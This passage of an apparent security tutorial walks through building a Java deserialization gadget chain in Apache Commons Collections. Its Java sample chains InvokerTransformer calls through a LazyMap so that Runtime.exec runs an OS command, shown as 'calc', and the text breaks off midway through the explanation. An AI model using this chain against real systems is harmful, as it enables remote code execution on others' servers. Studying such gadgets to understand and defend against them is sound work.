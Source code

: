    ![image-20200315161109601](C:\Users\Lam Nguyen\AppData\Roaming\Typora\typora-user-images\image-20200315161109601.png)





### Gadget idea & Build payload

#### Execute OS's commands using `LazyMap` and `ChainedTransformer`

##### Idea:

1. Prepare `chainedTransformer` to execute OS's command when calling `chainedTransformer.transform()` method. 

   Sample code:

   ```java
   String[] command = {"calc"};
   final Transformer[] transformers = new Transformer[]{
       new ConstantTransformer(Runtime.class), //(1)
       new InvokerTransformer("getMethod",
                              new Class[]{ String.class, Class[].class},
                              new Object[]{"getRuntime", new Class[0]}
                             ), //(2)
       new InvokerTransformer("invoke",
                              new Class[]{Object.class, Object[].class},
                              new Object[]{null, new Object[0]}
                             ), //(3)
       new InvokerTransformer("exec",
                              new Class[]{String.class},
                              command
                             ) //(4)
   };
   ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
   ```

   

   Procedure of `chainedTransformer.transform()`:

   <img src="https://3.bp.blogspot.com/-w1dB15DnaTE/VoR6edXrAHI/AAAAAAAAA-o/gcu2isnMz8U/s400/InvokerTransformer-3.png" alt="img"  />



2. Prepare LazyMap with the instance of chainedTransformer:

   `Map map = new HashMap<>();`
   `Map lazyMap = LazyMap.decorate(map, chainedTransformer)`

   

3. When LazyMap retrieve value of non-existed key, for example `lazyMap.get("<not existed value>")`:

   1. It sets a new value for that key with `LazyMap.factory.transform()`

      ![image-20200316162101403](C:\Users\Lam Nguyen\AppData\Roaming\Typora\typora-user-images\image-20200316162101403.png)
